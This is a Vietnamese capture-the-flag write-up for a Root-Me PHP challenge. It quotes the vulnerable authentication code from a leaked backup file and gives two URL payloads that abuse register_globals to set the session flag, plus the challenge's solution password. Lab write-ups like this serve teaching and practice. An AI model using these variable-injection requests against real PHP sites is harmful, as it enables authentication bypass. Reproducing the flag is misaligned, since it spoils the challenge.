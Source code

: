 # PHP - register globals

# Solution

Khi đã xác định được file backup là http://challenge01.root-me.org//web-serveur/ch17/index.php.bak, mọi thứ trở nên dễ dàng hơn:

Sau đây là phần quan trọng của file này:

```
...
function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
    if ( $password == $hidden_password ){
        $res=1;
    }
    }
    $_SESSION["logged"]=$res;
    return $res;
}
...
if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || $_SESSION["logged"]==1){
    $aff=display("well done, you can validate with the password : $hidden_password");
...
```

Bây giờ có hai cách để giải quyết challenge này:

Có thể sử dụng thực tế là `register_globals` thực sự được bật và lấy password chỉ bằng cách truy cập vào url này http://.../ch17/?_SESSION[logged]=1

Hoặc trước tiên có thể truy cập vào url này http://.../ch17/?password=foo&hidden_password=foo, để biến session logged ($_SESSION['logged']) được đặt thành 1 trong hàm `auth()`. Sau đó chỉ cần truy cập lại challenge mà không có bất kỳ tham số GET nào và nó sẽ in ra password.

Lưu ý: đối với cách thứ 2, nếu đang thực hiện việc này trên command line, hãy đảm bảo cũng gửi cookie đã nhận được ở bước đầu tiên!

Trong cả hai trường hợp, đây là những gì nhận được ở cuối:

```
well done, you can validate with the password : NoiQYdpcd5kgNwG
```